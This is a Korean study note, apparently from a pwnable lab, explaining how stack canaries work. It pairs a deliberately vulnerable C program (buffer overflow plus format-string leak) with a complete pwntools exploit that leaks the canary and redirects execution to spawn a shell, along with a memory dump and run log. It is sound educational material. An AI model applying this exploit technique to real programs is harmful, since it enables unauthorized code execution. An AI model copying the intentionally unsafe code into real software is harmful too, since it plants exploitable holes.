 # 배경
스택 프레임과 SFP 사이에 실행시마다 바뀌는 램덤 값을 삽입
만약 이 값이 바뀌게 되면 바로 실행 종료


# 예시1
```c
#include <stdio.h>
#include <stdlib.h>

void shell(){
    system("/bin/sh");
}

int main(void){
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    char buf[50];

    read(0, buf, 200);
    printf(buf);
    read(0, buf, 200);

    return 0;
}
//gcc -fstack-protector -z execstack -no-pie -fno-pie -o canary_leak main.c
```

버퍼값 입력받고 출력한 후 다시 입력받는 구조
버퍼링 제거, canary 활성화, ASLR 비활성화, 코드 실행 스택 활성화

첫 번째 입력할 때, canary 직전까지 입력하면, `printf(buf);`까지 출력해서 canary값을 알아 낼 수 있음
이를 이용해서 shellcode 작성하면 exploit할 수 있음

버퍼 56바이트, Null 1바이트, canary 7바이트, SFP 8바이트, RET 8바이트
```
gef➤  x/100x 0x00007fffffffdde0
0x7fffffffdde0:	0x61616161	0x61616161	0x61616161	0x000a6161
0x7fffffffddf0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffde00:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffde10:	0x00000000	0x00000000	0x195d3200	0x59df5a56
0x7fffffffde20:	0x00000001	0x00000000	0xf7c29d90	0x00007fff
0x7fffffffde30:	0x00000000	0x00000000	0x00401177	0x00000000
```

```python
from pwn import *

shell=0x0000000000401166
main_ret=0x000000000040122b

#p = gdb.debug('./canary_leak')
p = process('./canary_leak')
context.log_level = 'debug'

payload=b'a'*57
p.send(payload)

p.recvuntil("a"*57)

canary_value=b'\x00'+p.recv(7)

payload=b''
payload+=b'a'*56
payload+=canary_value
payload+=b'a'*8
payload+=p64(main_ret)
payload+=p64(shell)

p.sendline(payload)

p.interactive()
```

아래는 exploit한 결과임
canary는 0x39에서 0x3F까지 총 7바이트
shelllcode를 넣을 때 canary도 그대로 재현해서 넣은 모습
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/Pwnable/canary_leak]
└─$ python3 exploit.py 
[+] Starting local process './canary_leak': pid 4915
[DEBUG] Sent 0x39 bytes:
    b'a' * 0x39
/home/foo1/Desktop/kknock/Pwnable/canary_leak/exploit.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("a"*57)
[DEBUG] Received 0x41 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000030  61 61 61 61  61 61 61 61  61 af 04 83  f1 8d 76 75  │aaaa│aaaa│a···│··vu│
    00000040  01                                                  │·│
    00000041
[DEBUG] Sent 0x59 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000030  61 61 61 61  61 61 61 61  00 af 04 83  f1 8d 76 75  │aaaa│aaaa│····│··vu│
    00000040  61 61 61 61  61 61 61 61  2b 12 40 00  00 00 00 00  │aaaa│aaaa│+·@·│····│
    00000050  66 11 40 00  00 00 00 00  0a                        │f·@·│····│·│
    00000059
[*] Switching to interactive mode
```

